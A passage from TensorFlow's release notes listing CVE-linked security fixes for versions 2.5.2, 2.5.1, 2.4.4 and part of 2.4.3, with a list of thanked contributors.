    ([CVE-2021-37663](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37663))
*   Fixes vulnerabilities arising from incomplete validation in MKL
    requantization
    ([CVE-2021-37665](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37665))
*   Fixes an undefined behavior arising from reference binding to nullptr in
    `RaggedTensorToVariant`
    ([CVE-2021-37666](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37666))
*   Fixes an undefined behavior arising from reference binding to nullptr in
    unicode encoding
    ([CVE-2021-37667](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37667))
*   Fixes an FPE in `tf.raw_ops.UnravelIndex`
    ([CVE-2021-37668](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37668))
*   Fixes a crash in NMS ops caused by integer conversion to unsigned
    ([CVE-2021-37669](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37669))
*   Fixes a heap OOB in `UpperBound` and `LowerBound`
    ([CVE-2021-37670](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37670))
*   Fixes an undefined behavior arising from reference binding to nullptr in map
    operations
    ([CVE-2021-37671](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37671))
*   Fixes a heap OOB in `SdcaOptimizerV2`
    ([CVE-2021-37672](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37672))
*   Fixes a `CHECK`-fail in `MapStage`
    ([CVE-2021-37673](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37673))
*   Fixes a vulnerability arising from incomplete validation in `MaxPoolGrad`
    ([CVE-2021-37674](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37674))
*   Fixes an undefined behavior arising from reference binding to nullptr in
    shape inference
    ([CVE-2021-37676](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37676))
*   Fixes a division by 0 in most convolution operators
    ([CVE-2021-37675](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37675))
*   Fixes vulnerabilities arising from missing validation in shape inference for
    `Dequantize`
    ([CVE-2021-37677](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37677))
*   Fixes an arbitrary code execution due to YAML deserialization
    ([CVE-2021-37678](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37678))
*   Fixes a heap OOB in nested `tf.map_fn` with `RaggedTensor`s
    ([CVE-2021-37679](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37679))
*   Fixes a division by zero in TFLite
    ([CVE-2021-37680](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37680))
*   Fixes an NPE in TFLite
    ([CVE-2021-37681](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37681))
*   Fixes a vulnerability arising from use of unitialized value in TFLite
    ([CVE-2021-37682](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37682))
*   Fixes an FPE in TFLite division operations
    ([CVE-2021-37683](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37683))
*   Fixes an FPE in TFLite pooling operations
    ([CVE-2021-37684](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37684))
*   Fixes an infinite loop in TFLite
    ([CVE-2021-37686](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37686))
*   Fixes a heap OOB in TFLite
    ([CVE-2021-37685](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37685))
*   Fixes a heap OOB in TFLite's `Gather*` implementations
    ([CVE-2021-37687](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37687))
*   Fixes an undefined behavior arising from null pointer dereference in TFLite
    ([CVE-2021-37688](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37688))
*   Fixes an undefined behavior arising from null pointer dereference in TFLite
    MLIR optimizations
    ([CVE-2021-37689](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37689))
*   Fixes a FPE in LSH in TFLite
    ([CVE-2021-37691](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37691))
*   Fixes a segfault on strings tensors with mismatched dimensions, arising in
    Go code
    ([CVE-2021-37692](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37692))
*   Fixes a use after free and a potential segfault in shape inference functions
    ([CVE-2021-37690](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37690))
*   Updates `curl` to `7.77.0` to handle
    [CVE-2021-22876](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22876),
    [CVE-2021-22897](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22897),
    [CVE-2021-22898](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22898),
    and
    [CVE-2021-22901](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22901).

## Thanks to our Contributors

This release contains contributions from many people at Google, as well as:

Aadhitya A, Abhilash Mahendrakar, Abhishek Varma, Abin Shahab, Adam Hillier,
Aditya Kane, AdityaKane2001, ag.ramesh, Amogh Joshi, Armen Poghosov,
armkevincheng, Avrosh K, Ayan Moitra, azazhu, Banikumar Maiti, Bas Aarts, bhack,
Bhanu Prakash Bandaru Venkata, Billy Cao, Bohumir Zamecnik, Bradley Reece,
CyanXu, Daniel Situnayake, David Pal, Ddavis-2015, DEKHTIARJonathan, Deven
Desai, Duncan Riach, Edward, Eli Osherovich, Eugene Kuznetsov, europeanplaice,
evelynmitchell, Evgeniy Polyakov, Felix Vollmer, Florentin Hennecker, François
Chollet, Frederic Bastien, Fredrik Knutsson, Gabriele Macchi, Gaurav Shukla,
Gauri1 Deshpande, geetachavan1, Georgiy Manuilov, H, Hengwen Tong, Henri
Woodcock, Hiran Sarkar, Ilya Arzhannikov, Janghoo Lee, jdematos, Jens Meder,
Jerry Shih, jgehw, Jim Fisher, Jingbei Li, Jiri Podivin, Joachim Gehweiler,
Johannes Lade, Jonas I. Liechti, Jonas Liechti, Jonas Ohlsson, Jonathan
Dekhtiar, Julian Gross, Kaixi Hou, Kevin Cheng, Koan-Sin Tan, Kulin Seth,
linzewen, Liubov Batanina, luisleee, Lukas Geiger, Mahmoud Abuzaina, mathgaming,
Matt Conley, Max H. Gerlach, mdfaijul, Mh Kwon, Michael Martis, Michal
Szutenberg, Måns Nilsson, nammbash, Neil Girdhar, Nicholas Vadivelu, Nick
Kreeger, Nirjas Jakilim, okyanusoz, Patrice Vignola, Patrik Laurell, Pedro
Marques, Philipp Hack, Phillip Cloud, Piergiacomo De Marchi, Prashant Kumar,
puneeshkhanna, pvarouktsis, QQ喵, Rajeshwar Reddy T, Rama Ketineni, Reza Rahimi,
Robert Kalmar, rsun, Ryan Kuester, Saduf2019, Sean Morgan, Sean Moriarity,
Shaochen Shi, Sheng, Yang, Shu Wang, Shuai Zhang, Soojeong, Stanley-Nod, Steven
I Reeves, stevenireeves, Suraj Sudhir, Sven Mayer, Tamas Bela Feher,
tashuang.zk, tcervi, Teng Lu, Thales Elero Cervi, Thibaut Goetghebuer-Planchon,
Thomas Walther, Till Brychcy, Trent Lo, Uday Bondhugula, vishakha.agrawal,
Vishnuvardhan Janapati, wamuir, Wenwen Ouyang, wenwu, Williard Joshua Jose,
xiaohong1031, Xiaoming (Jason) Cui, Xinan Jiang, Yasir Modak, Yi Li, Yong Tang,
zilinzhu, 박상준, 이장

# Release 2.5.2

This release introduces several vulnerability fixes:

*   Fixes a code injection issue in `saved_model_cli`
    ([CVE-2021-41228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41228))
*   Fixes a vulnerability due to use of uninitialized value in Tensorflow
    ([CVE-2021-41225](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41225))
*   Fixes a heap OOB in `FusedBatchNorm` kernels
    ([CVE-2021-41223](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41223))
*   Fixes an arbitrary memory read in `ImmutableConst`
    ([CVE-2021-41227](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41227))
*   Fixes a heap OOB in `SparseBinCount`
    ([CVE-2021-41226](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41226))
*   Fixes a heap OOB in `SparseFillEmptyRows`
    ([CVE-2021-41224](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41224))
*   Fixes a segfault due to negative splits in `SplitV`
    ([CVE-2021-41222](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41222))
*   Fixes segfaults and vulnerabilities caused by accesses to invalid memory
    during shape inference in `Cudnn*` ops
    ([CVE-2021-41221](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41221))
*   Fixes a null pointer exception when `Exit` node is not preceded by
    `Enter` op ([CVE-2021-41217](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41217))
*   Fixes an integer division by 0 in `tf.raw_ops.AllToAll`
    ([CVE-2021-41218](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41218))
*   Fixes an undefined behavior via `nullptr` reference binding in sparse matrix
    multiplication ([CVE-2021-41219](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41219))
*   Fixes a heap buffer overflow in `Transpose`
    ([CVE-2021-41216](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41216))
*   Prevents deadlocks arising from mutually recursive `tf.function` objects
    ([CVE-2021-41213](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41213))
*   Fixes a null pointer exception in `DeserializeSparse`
    ([CVE-2021-41215](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41215))
*   Fixes an undefined behavior arising from reference binding to
    `nullptr` in `tf.ragged.cross`
    ([CVE-2021-41214](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41214))
*   Fixes a heap OOB read in `tf.ragged.cross`
    ([CVE-2021-41212](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41212))
*   Fixes a heap OOB read in all `tf.raw_ops.QuantizeAndDequantizeV*`
    ops ([CVE-2021-41205](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41205))
*   Fixes an FPE in `ParallelConcat` ([CVE-2021-41207]
    (https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41207))
*   Fixes FPE issues in convolutions with zero size filters
    ([CVE-2021-41209](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41209))
*   Fixes a heap OOB read in `tf.raw_ops.SparseCountSparseOutput`
    ([CVE-2021-41210](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41210))
*   Fixes vulnerabilities caused by incomplete validation in boosted trees code
    ([CVE-2021-41208](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41208))
*   Fixes vulnerabilities caused by incomplete validation of shapes in multiple
    TF ops ([CVE-2021-41206](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41206))
*   Fixes a segfault produced while copying constant resource tensor
    ([CVE-2021-41204](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41204))
*   Fixes a vulnerability caused by unitialized access in
    `EinsumHelper::ParseEquation`
    ([CVE-2021-41201](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41201))
*   Fixes several vulnerabilities and segfaults caused by missing validation
    during checkpoint loading
    ([CVE-2021-41203](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41203))
*   Fixes an overflow producing a crash in `tf.range`
    ([CVE-2021-41202](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41202))
*   Fixes an overflow producing a crash in `tf.image.resize` when size is large
    ([CVE-2021-41199](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41199))
*   Fixes an overflow producing a crash in `tf.tile` when tiling tensor is large
    ([CVE-2021-41198](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41198))
*   Fixes a vulnerability produced due to incomplete validation in
    `tf.summary.create_file_writer`
    ([CVE-2021-41200](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41200))
*   Fixes multiple crashes due to overflow and `CHECK`-fail in ops with large
    tensor shapes ([CVE-2021-41197](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41197))
*   Fixes a crash in `max_pool3d` when size argument is 0 or negative
    ([CVE-2021-41196](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41196))
*   Fixes a crash in `tf.math.segment_*` operations
    ([CVE-2021-41195](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41195))
*   Updates `curl` to `7.78.0` to handle
    [CVE-2021-22922](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22922),
    [CVE-2021-22923](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22923),
    [CVE-2021-22924](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22924),
    [CVE-2021-22925](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22925),
    and
    [CVE-2021-22926](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22926).

# Release 2.5.1

This release introduces several vulnerability fixes:

*   Fixes a heap out of bounds access in sparse reduction operations
    ([CVE-2021-37635](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37635))
*   Fixes a floating point exception in `SparseDenseCwiseDiv`
    ([CVE-2021-37636](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37636))
*   Fixes a null pointer dereference in `CompressElement`
    ([CVE-2021-37637](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37637))
*   Fixes a null pointer dereference in `RaggedTensorToTensor`
    ([CVE-2021-37638](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37638))
*   Fixes a null pointer dereference and a heap OOB read arising from operations
    restoring tensors
    ([CVE-2021-37639](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37639))
*   Fixes an integer division by 0 in sparse reshaping
    ([CVE-2021-37640](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37640))
*   Fixes a division by 0 in `ResourceScatterDiv`
    ([CVE-2021-37642](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37642))
*   Fixes a heap OOB in `RaggedGather`
    ([CVE-2021-37641](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37641))
*   Fixes a `std::abort` raised from `TensorListReserve`
    ([CVE-2021-37644](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37644))
*   Fixes a null pointer dereference in `MatrixDiagPartOp`
    ([CVE-2021-37643](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37643))
*   Fixes an integer overflow due to conversion to unsigned
    ([CVE-2021-37645](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37645))
*   Fixes a bad allocation error in `StringNGrams` caused by integer conversion
    ([CVE-2021-37646](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37646))
*   Fixes a null pointer dereference in `SparseTensorSliceDataset`
    ([CVE-2021-37647](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37647))
*   Fixes an incorrect validation of `SaveV2` inputs
    ([CVE-2021-37648](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37648))
*   Fixes a null pointer dereference in `UncompressElement`
    ([CVE-2021-37649](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37649))
*   Fixes a segfault and a heap buffer overflow in
    `{Experimental,}DatasetToTFRecord`
    ([CVE-2021-37650](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37650))
*   Fixes a heap buffer overflow in `FractionalAvgPoolGrad`
    ([CVE-2021-37651](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37651))
*   Fixes a use after free in boosted trees creation
    ([CVE-2021-37652](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37652))
*   Fixes a division by 0 in `ResourceGather`
    ([CVE-2021-37653](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37653))
*   Fixes a heap OOB and a `CHECK` fail in `ResourceGather`
    ([CVE-2021-37654](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37654))
*   Fixes a heap OOB in `ResourceScatterUpdate`
    ([CVE-2021-37655](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37655))
*   Fixes an undefined behavior arising from reference binding to nullptr in
    `RaggedTensorToSparse`
    ([CVE-2021-37656](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37656))
*   Fixes an undefined behavior arising from reference binding to nullptr in
    `MatrixDiagV*` ops
    ([CVE-2021-37657](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37657))
*   Fixes an undefined behavior arising from reference binding to nullptr in
    `MatrixSetDiagV*` ops
    ([CVE-2021-37658](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37658))
*   Fixes an undefined behavior arising from reference binding to nullptr and
    heap OOB in binary cwise ops
    ([CVE-2021-37659](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37659))
*   Fixes a division by 0 in inplace operations
    ([CVE-2021-37660](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37660))
*   Fixes a crash caused by integer conversion to unsigned
    ([CVE-2021-37661](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37661))
*   Fixes an undefined behavior arising from reference binding to nullptr in
    boosted trees
    ([CVE-2021-37662](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37662))
*   Fixes a heap OOB in boosted trees
    ([CVE-2021-37664](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37664))
*   Fixes vulnerabilities arising from incomplete validation in `QuantizeV2`
    ([CVE-2021-37663](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37663))
*   Fixes vulnerabilities arising from incomplete validation in MKL
    requantization
    ([CVE-2021-37665](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37665))
*   Fixes an undefined behavior arising from reference binding to nullptr in
    `RaggedTensorToVariant`
    ([CVE-2021-37666](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37666))
*   Fixes an undefined behavior arising from reference binding to nullptr in
    unicode encoding
    ([CVE-2021-37667](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37667))
*   Fixes an FPE in `tf.raw_ops.UnravelIndex`
    ([CVE-2021-37668](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37668))
*   Fixes a crash in NMS ops caused by integer conversion to unsigned
    ([CVE-2021-37669](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37669))
*   Fixes a heap OOB in `UpperBound` and `LowerBound`
    ([CVE-2021-37670](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37670))
*   Fixes an undefined behavior arising from reference binding to nullptr in map
    operations
    ([CVE-2021-37671](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37671))
*   Fixes a heap OOB in `SdcaOptimizerV2`
    ([CVE-2021-37672](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37672))
*   Fixes a `CHECK`-fail in `MapStage`
    ([CVE-2021-37673](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37673))
*   Fixes a vulnerability arising from incomplete validation in `MaxPoolGrad`
    ([CVE-2021-37674](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37674))
*   Fixes an undefined behavior arising from reference binding to nullptr in
    shape inference
    ([CVE-2021-37676](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37676))
*   Fixes a division by 0 in most convolution operators
    ([CVE-2021-37675](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37675))
*   Fixes vulnerabilities arising from missing validation in shape inference for
    `Dequantize`
    ([CVE-2021-37677](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37677))
*   Fixes an arbitrary code execution due to YAML deserialization
    ([CVE-2021-37678](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37678))
*   Fixes a heap OOB in nested `tf.map_fn` with `RaggedTensor`s
    ([CVE-2021-37679](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37679))
*   Fixes a division by zero in TFLite
    ([CVE-2021-37680](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37680))
*   Fixes an NPE in TFLite
    ([CVE-2021-37681](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37681))
*   Fixes a vulnerability arising from use of unitialized value in TFLite
    ([CVE-2021-37682](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37682))
*   Fixes an FPE in TFLite division operations
    ([CVE-2021-37683](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37683))
*   Fixes an FPE in TFLite pooling operations
    ([CVE-2021-37684](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37684))
*   Fixes an infinite loop in TFLite
    ([CVE-2021-37686](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37686))
*   Fixes a heap OOB in TFLite
    ([CVE-2021-37685](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37685))
*   Fixes a heap OOB in TFLite's `Gather*` implementations
    ([CVE-2021-37687](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37687))
*   Fixes an undefined behavior arising from null pointer dereference in TFLite
    ([CVE-2021-37688](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37688))
*   Fixes an undefined behavior arising from null pointer dereference in TFLite
    MLIR optimizations
    ([CVE-2021-37689](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37689))
*   Fixes a FPE in LSH in TFLite
    ([CVE-2021-37691](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37691))
*   Fixes a segfault on strings tensors with mismatched dimensions, arising in
    Go code
    ([CVE-2021-37692](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37692))
*   Fixes a use after free and a potential segfault in shape inference functions
    ([CVE-2021-37690](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37690))
*   Updates `curl` to `7.77.0` to handle
    [CVE-2021-22876](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22876),
    [CVE-2021-22897](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22897),
    [CVE-2021-22898](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22898),
    and
    [CVE-2021-22901](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22901).

# Release 2.4.4

This release introduces several vulnerability fixes:

*   Fixes a code injection issue in `saved_model_cli`
    ([CVE-2021-41228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41228))
*   Fixes a vulnerability due to use of uninitialized value in Tensorflow
    ([CVE-2021-41225](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41225))
*   Fixes a heap OOB in `FusedBatchNorm` kernels
    ([CVE-2021-41223](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41223))
*   Fixes an arbitrary memory read in `ImmutableConst`
    ([CVE-2021-41227](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41227))
*   Fixes a heap OOB in `SparseBinCount`
    ([CVE-2021-41226](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41226))
*   Fixes a heap OOB in `SparseFillEmptyRows`
    ([CVE-2021-41224](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41224))
*   Fixes a segfault due to negative splits in `SplitV`
    ([CVE-2021-41222](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41222))
*   Fixes segfaults and vulnerabilities caused by accesses to invalid memory
    during shape inference in `Cudnn*` ops ([CVE-2021-41221]
    (https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41221))
*   Fixes a null pointer exception when `Exit` node is not preceded by `Enter`
    op ([CVE-2021-41217](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41217))
*   Fixes an integer division by 0 in `tf.raw_ops.AllToAll`
    ([CVE-2021-41218](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41218))
*   Fixes an undefined behavior via `nullptr` reference binding in sparse matrix
    multiplication ([CVE-2021-41219](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41219))
*   Fixes a heap buffer overflow in `Transpose`
    ([CVE-2021-41216](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41216))
*   Prevents deadlocks arising from mutually recursive `tf.function` objects
    ([CVE-2021-41213](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41213))
*   Fixes a null pointer exception in `DeserializeSparse`
    ([CVE-2021-41215](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41215))
*   Fixes an undefined behavior arising from reference binding to `nullptr` in
    `tf.ragged.cross` ([CVE-2021-41214]
    (https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41214))
*   Fixes a heap OOB read in `tf.ragged.cross` ([CVE-2021-41212]
    (https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41212))
*   Fixes a heap OOB read in all `tf.raw_ops.QuantizeAndDequantizeV*` ops
    ([CVE-2021-41205](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41205))
*   Fixes an FPE in `ParallelConcat` 
    ([CVE-2021-41207](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41207))
*   Fixes FPE issues in convolutions with zero size filters ([CVE-2021-41209]
    (https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41209))
*   Fixes a heap OOB read in `tf.raw_ops.SparseCountSparseOutput`
    ([CVE-2021-41210](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41210))
*   Fixes vulnerabilities caused by incomplete validation in boosted trees code
    ([CVE-2021-41208](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41208))
*   Fixes vulnerabilities caused by incomplete validation of shapes in multiple TF ops
    ([CVE-2021-41206](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41206))
*   Fixes a segfault produced while copying constant resource tensor ([CVE-2021-41204]
    (https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41204))
*   Fixes a vulnerability caused by unitialized access in `EinsumHelper::ParseEquation`
    ([CVE-2021-41201](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41201))
*   Fixes several vulnerabilities and segfaults caused by missing validation during
    checkpoint loading ([CVE-2021-41203]
    (https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41203))
*   Fixes an overflow producing a crash in `tf.range` ([CVE-2021-41202]
    (https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41202))
*   Fixes an overflow producing a crash in `tf.image.resize` when size is large
    ([CVE-2021-41199](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41199))
*   Fixes an overflow producing a crash in `tf.tile` when tiling tensor is large
    ([CVE-2021-41198](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41198))
*   Fixes a vulnerability produced due to incomplete validation in `tf.summary.create_file_writer`
    ([CVE-2021-41200](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41200))
*   Fixes multiple crashes due to overflow and `CHECK`-fail in ops with large tensor shapes
    ([CVE-2021-41197](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41197))
*   Fixes a crash in `max_pool3d` when size argument is 0 or negative
    ([CVE-2021-41196](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41196))
*   Fixes a crash in `tf.math.segment_*` operations
    ([CVE-2021-41195](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41195))
*   Updates `curl` to `7.78.0` to handle
    [CVE-2021-22922](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22922),
    [CVE-2021-22923](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22923),
    [CVE-2021-22924](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22924),
    [CVE-2021-22925](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22925),
    and
    [CVE-2021-22926](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22926).

# Release 2.4.3

This release introduces several vulnerability fixes:

*   Fixes a heap out of bounds access in sparse reduction operations
    ([CVE-2021-37635](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37635))
*   Fixes a floating point exception in `SparseDenseCwiseDiv`
    ([CVE-2021-37636](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37636))
*   Fixes a null pointer dereference in `CompressElement`
    ([CVE-2021-37637](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37637))
*   Fixes a null pointer dereference in `RaggedTensorToTensor`
    ([CVE-2021-37638](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37638))
*   Fixes a null pointer dereference and a heap OOB read arising from operations
    restoring tensors
